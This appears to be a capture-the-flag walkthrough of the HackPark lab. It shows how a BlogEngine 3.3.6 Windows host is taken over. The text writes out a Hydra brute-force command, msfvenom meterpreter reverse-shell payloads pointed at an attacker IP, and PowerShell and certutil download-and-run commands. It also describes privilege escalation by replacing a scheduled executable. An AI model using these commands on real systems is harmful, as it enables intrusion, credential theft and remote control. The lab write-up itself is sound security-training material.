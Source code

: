 # Enumeration

Using autorecon, we quickly determine that ports 80 and 3389 are open.
 
![efa067d955098e8f8ee6b381e60c64ab.png](/HackPark/_resources/efa067d955098e8f8ee6b381e60c64ab-1.png)
 
By either looking at the autorecon results or by running a detailed nmap scan, we obtain more details about the services running on these two ports:
 
![1613229ae7e2222b5f5b021d0cbd24f0.png](/HackPark/_resources/1613229ae7e2222b5f5b021d0cbd24f0-1.png)
 
Investigating the web server on port 80, we eventually find a login page.
 
![2f8d1c6ad747ce3acbfbe550f89e4caf.png](/HackPark/_resources/2f8d1c6ad747ce3acbfbe550f89e4caf-1.png)
 
A quick Google search tells us that the default credentials for blogengine are admin:admin; this does not work in this instance, but we make note of this for later. Right-clicking on the log in button and using Firefox's inspect tool, we can determine the request type used by the log in form.
 
![f03ee789746226fd3abba612238de0db.png](/HackPark/_resources/f03ee789746226fd3abba612238de0db-1.png)
 
Alternatively, we can send the request through BurpSuite:
 
![3f665a94884868f0448d14ddd7faa944.png](/HackPark/_resources/3f665a94884868f0448d14ddd7faa944-1.png)
 
This will be useful later, as we will need the body of the POST request.

<br>

# Exploitation

We begin by brute-forcing the login page we found during our enumeration. We make use of Hydra. A bit of Googling reverse that one possible form of Hydra attack for an http-form POST request is:

```bash
hydra -l <username> -P <password list> $ip http-form-post "<path to login form>:<http post request body>:<invalid login pattern>" -V
```

For this to work, we need a few parameters:

- `<username>`: In this case, this is just admin.
- `<password list>`: We have a few choices here. We'll make use of the usual rockyou.txt password list.
- `$ip$`: This is the IP of the target machine.
- `<http post request body>`: This is the body of the HTTP post request we found using Burp. In general, we need to replace at least one of the username or password fields in the request body with `^USER^` or `^PASS^`, respectively. Since in this case we know the username, we can just use the password string.
- `<invalid login pattern>`: This is a string which Hydra will use to identify a failed login. We can test this directly on the login page and we find that "Login Failed" is the phrase returned for a failed login attempt.

Putting this together, the final command then becomes:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.0.19 http-post-form "/Account/login.aspx:__VIEWSTATE=VCLL4AD5hj4eU3c7OwZCMFSLrZgnuwNWwqU14ymrpSECMRMEss1jMVYmVb67U%2FpsBcK4tYfVcmqrQ%2B95Jw3qZzSMDHpPIKoIenuCluq6CFcmlVtKvP9qEozi293OcTTtm4qs%2Bf2KgjvhxZRnGxbLjaieg4PILs7zGesG7KaJ0cBNnJCJ&__EVENTVALIDATION=uri6bSKQN1p12IRWrOAPflhnCzioDymlveM9EI3FTCbZDuejIqx1mmjj1frSwFIxJVP67K%2BbeYtAFGpcmnK3vS7Fnnht8ZBu1RwEyFOmtErPCc0hDk71fYe4aqxdDJL%2BzggAaduPYQgoTwhO7cB9U7vuIHO7QtDBD6hYfu5TumyNHhLp&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -V
```
 
![e9040c88c5d9d7bd978ab69d4fcf28ca.png](/HackPark/_resources/e9040c88c5d9d7bd978ab69d4fcf28ca-1.png)
 
After a short while (about 1400 attempts), we obtain the password to the admin account.
 
![e787b6c51985dc37e38b1ac38853b00d.png](/HackPark/_resources/e787b6c51985dc37e38b1ac38853b00d-1.png)
 
Now that we have access to the admin account, we want to find a vulnerability which we can exploit to gain an initial foothold. Navigating to the admin page via the sidebar and then locating the about page reveals the version of BlogEngine.
 
![c0b94d9a6ccaf6773f8290789f22ea26.png](/HackPark/_resources/c0b94d9a6ccaf6773f8290789f22ea26-1.png)
 
Searching for "Blog Engine 3.3.6" on exploit DB gives us a few options; we will use [this exploit](https://www.exploit-db.com/exploits/46353) for remote code execution. Download the exploit and open the code in Mousepad. We need to change the TcpClient IP to the attacker IP. We will listen on the indicated port (in this case, I've chosen port 9999).
 
![24c39b9e1c067839ba50736b1bdd57ae.png](/HackPark/_resources/24c39b9e1c067839ba50736b1bdd57ae-1.png)
 
Start a netcat listener on the attacking machine.
 
![f81b1fd29f92bd75ef391547a6f8a90e.png](/HackPark/_resources/f81b1fd29f92bd75ef391547a6f8a90e-1.png)
 
We will run the exploit by following the instructions given in the C# file. Look for a published post using the admin dashboard and click on it to begin editing.
 
![2481f63928dad8cff301cb68653c3645.png](/HackPark/_resources/2481f63928dad8cff301cb68653c3645-1.png)
 
In the editor, click on the folder icon to open the file manager. Then rename the C# file to `PostView.ascx` and upload it.
 
![54df4778576ce55f5a526059f55af926.png](/HackPark/_resources/54df4778576ce55f5a526059f55af926-1.png)
 
We then trigger the file by navigating to `10.10.0.19/?theme=HackPark/App_Data/files`. Going back to our netcat listener, we see that we've caught a reverse shell.
 
![2142b8b7632e79fef82e5eec0c0c9b33.png](/HackPark/_resources/2142b8b7632e79fef82e5eec0c0c9b33-1.png)
 
Since our shell is unstable, we will pivot from netcat to a meterpreter session. Start by generating a reverse shell payload with msfvenom.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9999 -f exe -o hackparkshell.exe
`

We then open a web server with `python3 -m http.server` within the directory containing the reverse shell executable. Meanwhile, in our netcat session we navigate to `C:\Windows\Temp` (since we don't seem to have write permissions elsewhere) and run the following command to download the msfvenom reverse shell payload.
```powershell
powershell -command "Invoke-WebRequest -OutFile shell.exe -Uri 10.6.30.43:8000/hackparkshell.exe"
```

We can also use the following command to download files onto a Windows machine.
```powershell
certutil.exe -urlcache -f http://10.6.30.43/hackparkshell.exe shell.exe
```

In another terminal window, we open up Metasploit to set up the reverse handler. We use  ``use exploit/multi/handler`` and we set the following options:
 
![e18242f0bff037e0f026b24a82b01662.png](/HackPark/_resources/e18242f0bff037e0f026b24a82b01662-1.png)
 
Now ``run``  to start the reverse TCP handler. Back in our netcat session, we execute the shell with `shell.exe`. This will give us our meterpreter shell.

<br>

# Post-exploitation

Now that we have a stable shell, we wish to escalate privileges. Using `sysinfo` gives us some more information about the Windows machine.
 
![ef80725497f42f86fff2a3f0ac010f3d.png](/HackPark/_resources/ef80725497f42f86fff2a3f0ac010f3d-1.png)
 
The room suggests feeding the output into [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) in order to determine further exploits for privilege escalation. However, this didn't seem to work for me. Instead, we'll use WinPEAS. We download the x64 exe file [from here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) and we transfer it to the target system. Here, I switched to a Windows shell within meterpreter with `shell powershell` and used the same command we used before.
 
![a556bb3bcc0fd6bcf88720ab09fa4b6e.png](/HackPark/_resources/a556bb3bcc0fd6bcf88720ab09fa4b6e-1.png)
 
We then run winPEASx64.exe. We find some AutoLogon credentials.
 
![b295c359179f0979ebbdecbdd843c173.png](/HackPark/_resources/b295c359179f0979ebbdecbdd843c173-1.png)
 
We saw that port 3389 was open and serving a Microsoft Web Server. We can use this to connect to the machine as administrator. Open a new terminal and use the command `xfreerdp /tls-seclevel:0 /u:Administrator /p:<password> /v:10.10.0.19`.

(Note: I had issues connecting to the Windows machine via RDP; a bit of Googling suggested modifying the tls-seclevel parameter. The above parameter worked for me, although I'm not sure why.)

After RDPing into the machine, we have root access. The root flag is found on the desktop.
 
![e0b4da138dfc97dec15f63bb7e4141cc.png](/HackPark/_resources/e0b4da138dfc97dec15f63bb7e4141cc-1.png)
 
Similarly, we can navigate to Jeff's desktop to obtain his flag.
 
![b7a8c407998e463c4527ee3e432c1a3c.png](/HackPark/_resources/b7a8c407998e463c4527ee3e432c1a3c-1.png)
 
Alternatively, we can follow the intended path given in Task 4 of the room. Sifting through the winPEAS output, we eventually find an abnormal service running on the Windows machine.
 
![6b5ec3c6fd6524ee0e3fcd0fa2f10dae.png](/HackPark/_resources/6b5ec3c6fd6524ee0e3fcd0fa2f10dae-1.png)
 
It seems that something is happening with the Windows Scheduler service. We caught a glimpse of this when we RDP'd into the machine; every minute or so, a strange message pops up. Within our netcat session, we navigate to `C:\Program Files (x86)\SystemScheduler` and run `tasklist /v` to see a list of currently running tasks. We note that the file `Message.exe` seems to be sheduled.
 
![47cc8dde9b28889cfdc4f0f59e13b6a7.png](/HackPark/_resources/47cc8dde9b28889cfdc4f0f59e13b6a7-1.png)
 
Our goal is to replace this file with our msfvenom payload in order to spawn a reverse shell. We use the same command as before to generate the payload, making sure to use a different port this time.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9998 -f exe -o Message.exe 
```

Now repeat the steps from the previous task by setting up a Metasploit handler: Delete the old Message.exe file with `del /f Message.exe`, upload the new Message.exe payload to the target system, and wait for the task to execute. Since the system scheduler runs with admin privileges, this gives us a reverse shell with elevated privileges which we can use to access the two needed flags. Now we can navigate to the relevant folders within the meterpreter shell to find the flags.
 
![cf3e3caf2dcae4113c340614d619b940.png](/HackPark/_resources/cf3e3caf2dcae4113c340614d619b940-1.png)

![5388252d3f95cf1883f78afa49146da9.png](/HackPark/_resources/5388252d3f95cf1883f78afa49146da9-1.png)
 
To finish the room, we just need to find the original install time. This type of information can be found in the winPEAS output. The correct date and time turns out to be the same as the last time the Administrator's password was reset.
 
![06e783f7ae4b055418e0574d50c22ff6.png](/HackPark/_resources/06e783f7ae4b055418e0574d50c22ff6-1.png)